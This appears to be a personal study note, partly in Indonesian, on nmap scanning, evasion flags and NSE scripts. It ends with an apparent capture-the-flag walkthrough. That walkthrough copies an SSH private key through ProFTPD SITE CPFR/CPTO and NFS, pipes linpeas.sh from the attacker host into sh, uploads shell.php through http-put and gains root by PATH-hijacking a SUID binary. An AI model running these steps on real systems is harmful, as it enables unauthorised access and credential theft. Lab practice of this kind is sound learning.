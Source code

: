 # nmap
nmap => network mapping
    ip route | grep default
    trace
    netmask
    route -n 
    netstat -r -n

## using
- help
    - nmap -h / man nmap -
    - nmap -o => OS system operation
    - nmap -sC => vulnerabilty
    - nmap -sV => show version
    - nmap -sn => scan with ping
        - nmap -sn 192.168.0.1-254
        - nmap -sn 192.168.0.0/24

- nmap
    - nmap -A => all
    - namp -sT => scan not open or not sync destination repley rst
    - nmap -sS => sync scan
    - nmap -sF => fin scan
    - nmap -sX => 
    - nmap -sU => udp scan


- nmap lvl 
    - nmap -v => verbose / menampilkan prose saat run
    - nmap vv => verbose lvl 2
    - nmap vvv => verbose lvl 3
    - nmap -d => debuging lvl 1

- file
    - nmap -oA => output file all
    - nmap -oN => output normal
    - nmap -oG => output grepable

- port
    - nmap -T<0-5> => time lvl ex: nmap -T5
    - nmap -p <port> => check just port 80
    - nmap -p <port>-<port> => check range port ex: nmap -p 1000-1500
    - nmap -p U / nmap -p T
    - nmap -p- => all port

- firewall
    - namp -pN
        - -f:- Digunakan untuk memecah paket (yaitu membaginya menjadi potongan-potongan kecil) sehingga kecil kemungkinannya paket akan terdeteksi oleh firewall atau IDS.
        - Alternatif untuk , tetapi memberikan kontrol lebih besar atas ukuran paket: , menerima ukuran unit transmisi maksimum untuk digunakan untuk paket yang dikirim. Ini harus kelipatan 8.-f--mtu <number>
        - --scan-delay <time>ms:- digunakan untuk menambahkan penundaan antara paket yang dikirim. Ini sangat berguna jika jaringan tidak stabil, tetapi juga untuk menghindari pemicu firewall / IDS berbasis waktu yang mungkin ada.
        - --badsum:- Ini digunakan untuk menghasilkan checksum yang tidak valid untuk paket. Setiap tumpukan TCP / IP nyata akan menjatuhkan paket ini, namun, firewall berpotensi merespons secara otomatis, tanpa repot-repot memeriksa checksum paket. Dengan demikian, switch ini dapat digunakan untuk menentukan keberadaan firewall / IDS.
    - nmap -p 1-5000 -sS 10.10.202.100 -sS -vv -Pn
        - if know ftp is open
    - nmap --script=ftp-anon -p21 10.10.202.100 -vv

- script
    - nmap --script=<nama_file>
    - /usr/share/nmap/scripts
        - file script.db => mencari script
        - ls -l /usr/share/nmap/scripts/*ftp*
            - grep "ftp" /usr/share/nmap/scripts/script.db => mencari file script dengan file diawali ftp
            - grep "safe" /usr/share/nmap/scripts/script.db => find category
            - cat <nama_file>

## learn
- Saat pemindaian port dengan Nmap, ada tiga jenis pemindaian dasar. Ini adalah:
    - Pemindaian TCP Connect (-sT)
    - Pemindaian SYN "Setengah terbuka" (-sS)
    - Pemindaian UDP (-sU)

- Selain itu ada beberapa jenis pemindaian port yang kurang umum, beberapa di antaranya juga akan kami bahas (meskipun kurang detail). Ini adalah:
    - Pemindaian TCP Null (-sN)
    - Pemindaian TCP FIN (-sF)
    - Pemindaian TCP Xmas (-sX)

- Peta N Scripting Engine (NSE) adalah tambahan yang sangat kuat untuk Nmap, memperluas fungsinya cukup jauh. NSE Scripts ditulis dalam bahasa pemrograman Lua, dan dapat digunakan untuk melakukan berbagai hal: dari pemindaian kerentanan, untuk mengotomatisasi eksploitasi untuk mereka. NSE sangat berguna untuk pengintaian, namun, perlu diingat seberapa luas perpustakaan skrip.
- Ada banyak kategori yang tersedia. Beberapa kategori yang berguna meliputi:
    - safe:- Tidak akan mempengaruhi target
    - intrusive:- Tidak aman: kemungkinan akan mempengaruhi target
    - vuln:- Pindai kerentanan
    - exploit:- Mencoba mengeksploitasi kerentanan
    - auth:- Mencoba untuk memotong otentikasi untuk menjalankan layanan (misalnya Masuk ke server FTP secara anonim)
    - brute:- Mencoba untuk bruteforce kredensial untuk menjalankan layanan
    - discovery:- Mencoba untuk query menjalankan layanan untuk informasi lebih lanjut tentang jaringan (misalnya query server SNMP).

- Beberapa skrip dapat dijalankan secara bersamaan dengan cara ini dengan memisahkannya dengan koma. Misalnya:.--script=smb-enum-users,smb-enum-shares
- Beberapa skrip memerlukan argumen (misalnya, kredensial, jika mengeksploitasi kerentanan yang diautentikasi). Ini dapat diberikan dengan sakelar Nmap. Contohnya adalah dengan skrip (digunakan untuk mengunggah file menggunakan metode PUT). Ini membutuhkan dua argumen: URL untuk mengunggah file, dan lokasi file pada disk. Misalnya:--script-argshttp-put
    - nmap -p 80 --script http-put --script-args http-put.url='/dav/shell.php',http-put.file='./shell.php'


## samba
```
nmap -vvv
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.166.158

smbclient //10.10.10.10/anonymous
smbget -R smb://10.10.166.158/anonymous

nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.166.158
searsearchsploit proftpd 1.3.5

nc 10.10.166.158 21 / netcat => network cat
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

mkdir /mnt/kenobiNFS
sudo mount 10.10.166.158:/var /mnt/kenobi
ls -al /mnt/kenobi

cp /mnt/kenobi/tmp/id_rsa id_rsa
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.166.158

d0b0f3f53b6caa532a83915e19224899
```

```
find / -perm -u=s -type f 2>/dev/null
usr/bin/menu

sudo python3 -m http-server 80
wget http://ur_ip/linpeas.sh | sh
curl ur_ip/linpeas.sh | sh

if u got /usr/bin/menu
u can use menu
- menu

- strings /usr/bin/menu
env => environment variable

echo bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH

menu: 1
# (user root now)
```